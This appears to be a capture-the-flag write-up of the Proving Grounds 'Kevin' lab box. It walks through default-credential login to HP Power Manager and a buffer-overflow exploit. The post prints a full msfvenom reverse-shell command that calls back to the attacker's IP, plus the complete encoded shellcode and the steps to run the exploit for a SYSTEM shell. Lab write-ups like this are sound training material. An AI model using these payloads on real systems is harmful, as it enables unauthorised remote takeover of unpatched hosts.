 ```yaml
---
layout: writeup
title: Kevin - Proving Grounds
date: 2024-07-30 13:32:20 +0300
description: A Writeup of the Kevin Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusunagi]
---
```


Alrighty, let’s get started with another [Proving Grounds](https://www.offsec.com/labs/) box from TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)as well as LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Kevin, and it's rated Easy by Proving Grounds and Easy by the community. Hopefully I can validate that rating. As usual, I get started with an nmap scan: 

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

So we have a number of open ports here, though only a few of them are realistically going to be exploitable I suspect. I quickly check to see if we can list SMB shares and see if we can log into rpcclient, but we cannot, so I go check out the web page. It looks like there is a web app on port 80 called HP Power Manager:

![Kevin1.png](/assets/images/Kevin/Kevin1.png){: .responsive-image}

There is a potential exploit on [exploit-db](https://www.exploit-db.com/exploits/10099), but I try `admin:admin` first. 

![Kevin2.png](/assets/images/Kevin/Kevin2.png){: .responsive-image}

And we are able to log in. I click around, but can't find anything, though I do find the version is listed as 4.2. 

![Kevin3.png](/assets/images/Kevin/Kevin3.png){: .responsive-image}

At this point I go back to the exploit-db script and copy it into my home folder. When reviewing the script, we see a that we need to replace some shell code with new code so that it calls back to our machine, and we notice this line describing the encoding:

![Kevin4.png](/assets/images/Kevin/Kevin4.png){: .responsive-image}

[This](https://www.offsec.com/metasploit-unleashed/alphanumeric-shellcode/) from Proving Grounds explains how to generate shellcode in this format, so we do that. We also need to take note that that code needs to be in C format `-f c`, which can be confusing because the exploit is written in python (you can see this if you find it with searchsploit, the format is `.py`). I got stuck here, and wound up trying a bunch of other exploits I found online. The full command is: `msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.183 LPORT=80 -e x86/alpha_mixed -f c` which results in this code:

```
"\x89\xe7\xd9\xcf\xd9\x77\xf4\x59\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a"
"\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41"
"\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42"
"\x75\x4a\x49\x69\x6c\x59\x78\x6c\x42\x45\x50\x63\x30\x55"
"\x50\x75\x30\x6e\x69\x49\x75\x35\x61\x6f\x30\x35\x34\x4e"
"\x6b\x46\x30\x36\x50\x4c\x4b\x66\x32\x54\x4c\x6c\x4b\x73"
"\x62\x62\x34\x4e\x6b\x63\x42\x34\x68\x36\x6f\x4c\x77\x62"
"\x6a\x76\x46\x35\x61\x6b\x4f\x4c\x6c\x57\x4c\x55\x31\x31"
"\x6c\x73\x32\x74\x6c\x55\x70\x59\x51\x48\x4f\x36\x6d\x75"
"\x51\x4b\x77\x6a\x42\x49\x62\x53\x62\x56\x37\x6e\x6b\x63"
"\x62\x44\x50\x4c\x4b\x43\x7a\x37\x4c\x6c\x4b\x42\x6c\x56"
"\x71\x73\x48\x4a\x43\x72\x68\x47\x71\x7a\x71\x53\x61\x4e"
"\x6b\x53\x69\x31\x30\x76\x61\x48\x53\x4c\x4b\x63\x79\x75"
"\x48\x38\x63\x34\x7a\x62\x69\x6e\x6b\x50\x34\x6e\x6b\x45"
"\x51\x38\x56\x44\x71\x69\x6f\x6c\x6c\x39\x51\x6a\x6f\x66"
"\x6d\x66\x61\x58\x47\x77\x48\x6d\x30\x43\x45\x5a\x56\x55"
"\x53\x51\x6d\x38\x78\x47\x4b\x31\x6d\x74\x64\x31\x65\x59"
"\x74\x31\x48\x6e\x6b\x52\x78\x57\x54\x37\x71\x38\x53\x52"
"\x46\x6c\x4b\x76\x6c\x42\x6b\x6e\x6b\x52\x78\x45\x4c\x35"
"\x51\x68\x53\x6c\x4b\x47\x74\x4e\x6b\x47\x71\x48\x50\x4f"
"\x79\x67\x34\x31\x34\x66\x44\x63\x6b\x71\x4b\x70\x61\x76"
"\x39\x33\x6a\x46\x31\x59\x6f\x6d\x30\x51\x4f\x43\x6f\x63"
"\x6a\x4c\x4b\x74\x52\x38\x6b\x6e\x6d\x71\x4d\x33\x58\x70"
"\x33\x46\x52\x57\x70\x33\x30\x61\x78\x72\x57\x44\x33\x37"
"\x42\x63\x6f\x61\x44\x72\x48\x52\x6c\x52\x57\x74\x66\x35"
"\x57\x49\x6f\x59\x45\x68\x38\x7a\x30\x55\x51\x35\x50\x37"
"\x70\x54\x69\x49\x54\x50\x54\x50\x50\x55\x38\x71\x39\x4f"
"\x70\x42\x4b\x67\x70\x39\x6f\x59\x45\x46\x30\x62\x70\x42"
"\x70\x66\x30\x63\x70\x62\x70\x71\x50\x42\x70\x71\x78\x48"
"\x6a\x76\x6f\x4b\x6f\x59\x70\x69\x6f\x6b\x65\x4d\x47\x62"
"\x4a\x44\x45\x65\x38\x49\x50\x6f\x58\x74\x6d\x68\x37\x42"
"\x48\x37\x72\x45\x50\x43\x30\x46\x30\x6f\x79\x78\x66\x73"
"\x5a\x36\x70\x62\x76\x51\x47\x35\x38\x6f\x69\x39\x35\x30"
"\x74\x31\x71\x79\x6f\x38\x55\x6f\x75\x39\x50\x72\x54\x56"
"\x6c\x69\x6f\x42\x6e\x67\x78\x51\x65\x4a\x4c\x63\x58\x4a"
"\x50\x68\x35\x4c\x62\x66\x36\x49\x6f\x4e\x35\x72\x48\x65"
"\x33\x50\x6d\x71\x74\x55\x50\x4b\x39\x39\x73\x73\x67\x30"
"\x57\x46\x37\x35\x61\x59\x66\x43\x5a\x44\x52\x30\x59\x73"
"\x66\x79\x72\x4b\x4d\x31\x76\x38\x47\x63\x74\x75\x74\x75"
"\x6c\x57\x71\x57\x71\x6e\x6d\x50\x44\x76\x44\x32\x30\x7a"
"\x66\x65\x50\x43\x74\x56\x34\x46\x30\x53\x66\x71\x46\x62"
"\x76\x33\x76\x32\x76\x30\x4e\x61\x46\x36\x36\x31\x43\x73"
"\x66\x52\x48\x31\x69\x6a\x6c\x55\x6f\x6b\x36\x4b\x4f\x4a"
"\x75\x6f\x79\x49\x70\x62\x6e\x31\x46\x51\x56\x49\x6f\x50"
"\x30\x32\x48\x75\x58\x6d\x57\x37\x6d\x31\x70\x4b\x4f\x68"
"\x55\x6f\x4b\x48\x70\x4f\x45\x6c\x62\x52\x76\x71\x78\x79"
"\x36\x6a\x35\x6f\x4d\x4f\x6d\x59\x6f\x4a\x75\x67\x4c\x55"
"\x56\x61\x6c\x54\x4a\x6d\x50\x79\x6b\x59\x70\x72\x55\x76"
"\x65\x4f\x4b\x31\x57\x45\x43\x70\x72\x62\x4f\x51\x7a\x35"
"\x50\x61\x43\x6b\x4f\x6a\x75\x41\x41"
```

So we add that to directly below "n00bn00b" (line 42). Note, the output of the msfvenom command includes a `;` - do not include this in the exploit. After that, we run the command `python2 10099.py 192.168.157.45`. 

*Note that this is a buffer overflow exploit, and if you use the wrong port or something, you will have to revert the machine because the exploit can only be run once. This is often the case for Buffer Overflow exploits.*

And it takes a while (under a minute), but eventually we get a shell. 

![Kevin5.png](/assets/images/Kevin/Kevin5.png){: .responsive-image}

And it's already a `NT Authority\System` shell, so we grab `proof.txt` and we're done. 

#### Remediation Steps
Update the HP Power Manager instance to a non-vulnerable version, and furthermore have a different account running the application, so that in the event that it does get exploited, it won't be a admin shell. 

#### Lessons Learned
It's a pretty simple box if you do it right, but it actually took a while to figure some things out. You need to also understand what kind of shell code you are generating. In the exploit-db script, you need to generate shell code in C, even though the exploit itself (and the file in searchsploit) is written in python. That can be confusing. 

The last thing I would say is that I tried some other exploits I found online, and I couldn't get any of them working. I even saw a writeup that linked them ([python2](https://github.com/Muhammd/HP-Power-Manager) and [python3](https://github.com/CountablyInfinite/HP-Power-Manager-Buffer-Overflow-Python3)) and said they used them. I tried for a while after I completed the box, but I was never able to do it, maybe because they use bind shells, which may have been copied from a metasploit exploit. Regardless, it was frustrating for an easy box. Like I said, if you get everything right the first time, this box shouldn't take long, but it can drag. 
